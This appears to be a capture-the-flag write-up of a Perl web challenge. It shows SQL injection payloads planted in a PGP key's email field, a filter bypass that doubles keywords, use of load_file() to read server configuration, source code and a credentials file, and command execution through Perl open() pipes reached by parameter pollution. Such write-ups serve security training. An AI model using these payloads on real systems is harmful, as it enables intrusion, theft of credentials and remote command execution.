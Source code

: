 We need to upload a PGP public key file so the website will parse it.
The PGP can contain an SQLi in the email field. Michael A. wrote a script to make everything easier, 
The trick will now be the SQLi itself.

At first, we thought about fetching the users so we could use an activated user perhaps. 
To do this we must first find which table stores them.

## Basic SQLi
The server doesn't sanitize ', so we can just easily inject code.
However, the server does sanitize "union" and "select" among some special characters - the easiest way to check is entering 
a valid SQL query with testing AFTER the comment.

for instance the query

  email = "A' or 1 # union select ()<>?!%= "

Will return something along 
	"A' or 1 #<" 
(so just < isn't sanitized here)

**Incidentally every character is sanitized only once**, so

  email = "A' or 1 # == "

will return

  "A' or 1 # = "

## Getting the users table/columns (Ultimately not useful)  
[This](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet1 
) cheatsheet contains a lot of useful queries, like how to get a list of the tables and of columns:

To get (All) the tables we use:

  ```email = "A' UNunionION SELselectECT table_name,1,1,1,1 FROM information_schema.tables # "```

"table_name" has to be first, because only the first column is shown to the user.

The last table in the response is :

```"information_schema.tables # </br>[different key]</br>
(accounts) A' UNION SELECT table_name,1,1,1,1 FROM"```

So we can see the table name is "accounts"

To get all the coulmns from all of the tables we use:


  email = "A' UNunionION SELselectECT column_name,1,1,1,1 FROM information_schema.columns # "
  
Which returns 

 ```information_schema.columns # </br>[different key]</br>
(path) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(user_id) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(pass) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>
(activated) A' UNION SELECT column_name,1,1,1,1 FROM information_schema.columns # </br>[different key]</br>```


Too bad there are no activated users, which can be verified with 

  ```email = "A' UNunionION SELselectECT activated,1,1,1,1 FROM accounts"```

Trying to insert an activated user or to update one also didn't work...

## Solution

We're interested in the source code, but to know where it is we need to check lighttpd.conf first - because the website is powered by lighttpd.
We can't deliver straight ASCII, because we might have characters which will bang the SQL query.

We can use mySQL's load_file() to load a file, and hex() to encode it into hex:

So to get the [configuration](lighttpd.conf) we can use the following query:

```email = "A' UNunionION SELselectECT ()hex(load_file('/etc/lighttpd/lighttpd.conf')),1,1,1,1 #"```

The result contains the name of our [index page (source)](index.pl), to get it we use:

```email = "A' UNunionION SELselectECT ()hex(load_file('/var/www/html/public/index.pl')),1,1,1,1 #"```

Inside we can see that the flag is loaded from '../private/config.ini', so we get the flag:

```email = "A' UNunionION SELselectECT ()hex(load_file('/var/www/html/private/config.ini')),1,1,1,1 #"```

which gives us:

>[Database] Password=BlulS@ablul [CTF] Flag=ILov3P3rl43v3r



## RCE

Inside the index page there are no execute() or system() functions, so RCE is not really straight forward.
However, googling for "perl rce" landed me on [this](http://www.cgisecurity.com/lib/sips.html) page, which includes a section about how open() can be used for RCE:
>If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename is interpreted as a command which pipes output to us.

open() is being called from the get_template subroutine:

	sub get_template {
		my $filename = shift;

		open (FILE, $filename);
		my $output = <FILE>;
		close(FILE);

		return $output;
	}

Which is being called from  print_template:

	sub print_template {
		my $filename = shift;

		print get_template($filename);
	}

This function is called 3 times, each time with an argument from the list :

	my %templates = (
		header => 'templates/header.html',
		footer => 'templates/footer.html',
		form => 'templates/form.html',
		error => $query->param('error')
	);

"error" can be injected into, in the form of a parameter.
Perl has a weird way of expanding hashes, as I learned from [this](http://www.youtube.com/watch?v=noQcWra6sbU&t=6m33s) talk .

We can use the same method to insert an arbitrary command to open.
Any of the other variables (header, footer or form) can be replaced with a command in the following way:

`http://<IP>/public/index.pl?error=e&error=form&error=|ls`

Where the second parameter will be the variable we want to inject into, and the third will be the command executed. 
We get the output piped to us.


